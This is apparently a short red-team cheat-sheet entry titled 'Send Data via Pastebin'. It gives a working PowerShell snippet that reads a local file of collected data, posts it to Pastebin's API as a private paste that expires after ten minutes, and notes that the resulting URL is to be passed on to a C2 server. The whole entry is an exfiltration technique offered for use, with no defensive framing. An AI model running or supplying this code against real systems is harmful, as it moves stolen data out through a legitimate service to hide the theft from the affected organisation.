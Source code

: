 # Send Data via Pastebin

We can send collected data to Pastebin and see the contents via the paste. The PowerShell command is below:

```powershell
$api_dev_key = "<API_KEY>"
$api_paste_code = Get-Content -Raw -Path ".\collected_data.txt"

$response = Invoke-WebRequest -Uri "https://pastebin.com/api/api_post.php" -Method POST -Body @{
    api_option = "paste"
    api_dev_key = $api_dev_key
    api_paste_code = $api_paste_code
    api_paste_name = "collected_data.txt"
    api_paste_private = 1
    api_paste_expire_date = "10M"
    api_paste_format = "text"
}

$response.Content
# the output displays the URL of our paste, so we need to send this URL to C2 server or other methods.
```

## Resources

- [Pastebin API Documentations](https://pastebin.com/doc_api)